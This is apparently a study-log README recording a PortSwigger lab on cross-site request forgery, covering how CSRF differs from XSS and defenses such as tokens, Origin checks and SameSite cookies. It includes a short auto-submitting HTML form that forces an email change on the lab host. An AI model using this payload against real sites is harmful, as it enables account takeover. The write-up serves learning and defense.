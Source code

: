 # 🎭 Day 12 – Cross-Site Request Forgery (CSRF)

### 🔍 What I Explored Today

Today’s focus was on understanding and practically implementing **CSRF (Cross-Site Request Forgery)** attacks. Initially, I was confused between **XSS** and **CSRF**, but I quickly realized that while XSS exploits trust **a user has in a site**, CSRF exploits the trust **a site has in a user's browser**.

---

### 📚 Topics Covered

- What is CSRF and how it works
- Impact of CSRF vulnerabilities in real-world apps
- Difference between XSS and CSRF
  - _💡 Can CSRF tokens prevent XSS attacks? → No, they are different threat vectors._
- Constructing a CSRF attack page manually
- Delivering an exploit using auto-submitting HTML forms
- Various defense mechanisms:
  - CSRF tokens
  - Referer/Origin header validation
  - SameSite cookie policies

---

### 🧪 Lab Completed – PortSwigger

| Lab | Status |
|-----|--------|
| 🧪 CSRF vulnerability with no defenses | ✅ Solved |

This beginner lab helped me manually construct a CSRF attack without any built-in security on the target page.

---

### 🧾 CSRF PoC I Crafted

```html
<form method="POST" action="(your)_LAB_ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacker@mail.com">
</form>
<script>
    document.forms[0].submit()
</script>
```
---
### 🎥 Resource That Helped Me
Here's a helpful YouTube video that explains how CSRF works:
[YouTube: CSRF - Cross Site Request Forgery - What is CSRF? How does CSRF work?](https://youtu.be/7Fs8DTITkoE?si=llXK0QMWzn_Zbh46)
This helped me understand the manual exploitation approach, since automatic CSRF PoC generation is only available in the Burp Suite Professional version.




---

### 💡 Key Takeaway
 CSRF may not give you flashy RCE shells, but it's powerful — especially in state-changing actions like email change, password resets, or fund transfers.
It reinforces the value of understanding how web applications trust user identity through sessions.

---
### 😵‍💫 My Struggles Today
I was initially confused between XSS and CSRF — especially in terms of where and how the attacker exploits trust.

googled a bit to get clear about the difference between cross-site scripting and request-forgery.

Realized the importance of SameSite cookie protection in modern browsers and how it's evolving.
